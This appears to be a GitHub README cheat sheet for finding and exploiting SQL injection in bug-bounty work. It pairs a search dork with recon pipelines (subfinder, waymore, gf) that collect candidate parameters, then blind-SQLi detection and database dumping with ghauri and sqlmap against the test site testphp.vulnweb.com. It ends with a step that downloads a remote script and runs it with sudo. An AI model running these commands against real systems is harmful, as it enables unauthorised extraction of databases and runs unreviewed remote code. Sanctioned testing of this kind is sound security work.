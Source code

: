 ## Dork

```
site:.com & ext:php | ext:asp | ext:aspx | ext:jsp | ext:jspx & intitle:"responsible disclosure"
```
<a href="https://gist.githubusercontent.com/derlin/421d2bb55018a1538271227ff6b1299d/raw/3a131d47ca322a1d001f1f79333d924672194f36/country-codes-tlds.json">More country tlds</a>
<a href="https://github.com/HackShiv/OneDorkForAll/blob/main/dorks/Bug%20Bounty%20dork.txt" >More bug bounty dorks</a>

## All Parameter Finding

```
subfinder -d "vulnweb.com" -recursive -all -silent | while read domains; do waymore -i "$domains" -fc 301,302,303,304,307,308 -n -mode U | qsreplace "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | sort -u | tee vulnweb.com.parameters.txt; done
```

## Only SQLi Parameters

```
subfinder -d "vulnweb.com" -recursive -all -silent | while read domains; do waymore -i "$domains" -fc 301,302,303,304,307,308 -n -mode U | gf sqli | qsreplace "FUZZ" | grep "FUZZ" | sed 's/FUZZ//g' | sort -u | tee vulnweb.com.parameters.txt; done
```
<a href="https://github.com/freelancermijan/.gf/blob/main/sqli.json">All SQLi Parameters</a>

## Blind SQLi Detection

```
bsqli --urls vulnweb.com.sql.parameters.txt --payloads payloads/xor.txt --verbose --save vulnweb.com.detected.sql.parameters.txt
```
<a href="https://github.com/coffinsp/payloads">More payloads</a>

## Ghauri DB Dumping

```
ghauri -u "http://testphp.vulnweb.com/artists.php?artist=*" --batch --confirm --current-db --dbs
```

## SQLMAP DB Dumping

```
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=*" --batch --dbs --random-agent --tamper=space2comment --level=2
```

#### Install Automation script

```
sudo rm -rf sqli.sh
wget "https://raw.githubusercontent.com/h6nt3r/tools/refs/heads/main/sqli/sqli.sh"
sudo chmod +x ./*.sh
./sqli.sh -h
```
